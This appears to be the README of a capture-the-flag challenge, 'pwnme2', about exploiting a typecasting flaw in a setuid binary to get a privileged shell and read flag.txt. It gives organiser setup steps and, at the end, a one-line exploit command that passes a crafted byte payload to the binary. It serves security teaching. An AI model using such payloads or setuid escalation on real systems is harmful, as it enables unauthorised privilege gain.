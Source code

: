 # Challenge: pwnme2

# Points: 75

# Description: 

Do you know typecasting?
Look at [this](./pwnme2) executable. 
[This](./pwnme2.c) is the sourcefile. 

# Hint: 

1. Read the sourcefile properly. 


NOTE FOR US:

NOTE TO US: 

1. This program is just present to understand what "/bin/sh" is, what system is, what setuid executable is. 

2. While setting up, the user of **pwnme2** executable should be **pwnme2** it should be setuid to **pwnme2_pwn**. 

3. This is how convert pwnme2 into a setuid executable: 

a. Create 2 users with names **pwnme2** and **pwnme2_pwn**. . 
b. Change the owner of pwnme2-executable to **pwnme2_pwn** - chown pwnme2_pwn pwnme2
c. Change the group of pwnme2-executable to **pwnme2** - chgrp pwnme2 pwnme2
d. Set the setuid bit: chmod u+s pwnme2

So, a user with pwnme2 prvileges can also run executables with pwnme2_pwn(higher privileges) and get a shell with higher privileges to read **flag.txt** . 

4. There is a flag.txt with user **pwnme2_pwn** and group **pwnme2_pwn**. So, only with the shell with privileges **pwnme2_pwn**, one will be able to read flag.txt.

4. With tha flag.txt, the following should be done to ensure only **pwnme2_pwn** user is able to read it and no one else. 

$ sudo chmod 0400 flag.txt  - Damn Important because in normal cases, "others" are allowed to read files owned by higher-privilege-users but this should happne in our case. 

This is very very important!


./pwnme2 `python -c "print '\xdd\xb7\xd5\xdb\x57\xd7\x5f\x19' * 7 + '\xe4\xb7\xd5\xdb\x57\xd7\x5f\x19'"`